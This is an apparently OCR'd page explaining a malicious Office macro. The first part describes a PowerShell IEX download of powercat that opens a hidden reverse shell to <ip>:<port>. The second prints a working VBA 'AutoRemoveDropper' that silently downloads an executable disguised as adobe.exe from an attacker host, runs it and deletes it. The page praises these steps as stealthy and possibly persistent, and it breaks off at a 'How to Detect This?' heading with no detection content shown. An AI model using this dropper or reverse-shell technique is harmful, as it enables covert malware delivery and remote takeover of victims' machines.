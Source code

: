 **What This Does**

1. **Defines** `url` pointing to `powercat.ps1`, which is hosted on `<ip>:<port>`.
2. **Constructs the PowerShell script (**`psscript`**)**:



- Uses `IEX` (Invoke-Expression) to execute a downloaded script in memory.
- Runs **PowerCat** (`powercat -c <ip> -p <port> -e cmd`), which:
- **Connects back** to &lt;ip&gt; on port `<port>`.
- **Spawns** `cmd.exe` for remote command execution.

**3. Executes the PowerShell command**:

Runs it with:

- `-ExecutionPolicy Bypass`: Bypasses PowerShell execution restrictions.
- `-WindowStyle Hidden`: Runs it stealthily.
- `vbHide`: Hides the process from the user.

* * *

### Auto-Remove Dropper

This function:

1. **Downloads** `adobe.exe` to `C:\Users\Admin\AppData\Local\Temp\`
2. **Executes** `adobe.exe` **and waits for it to finish**
3. **Deletes itself after execution**

### Breakdown of `AutoRemoveDropper`

```
Sub AutoRemoveDropper()
	Dim dropper As Object
	Set dropper = CreateObject("WScript.Shell")
        dropper.Run "powershell.exe -Command ""Invoke-WebRequest -Uri 'http://<ip>:8080/adobe.exe' -OutFile 'C:\Users\Admin\AppData\Local\Temp\adobe.exe'; Start-Process 'C:\Users\Admin\AppData\Local\Temp\adobe.exe' -Wait; Remove-Item -Path 'C:\Users\Admin\AppData\Local\Temp\adobe.exe' -Force""", 0, True
End Sub
```

**What This Does**

1. **Downloads** `adobe.exe` via `Invoke-WebRequest` from `<ip>:8080`.
2. **Runs** `adobe.exe` **and waits for it to finish** (`-Wait` ensures it fully executes before removal).
3. **Deletes** `adobe.exe` from the `Temp` directory.

#### Key Features

**Stealthy**: Deletes itself after execution.  
**Persistence Possible**: If scheduled to run at boot.

* * *

#### How to Detect This?
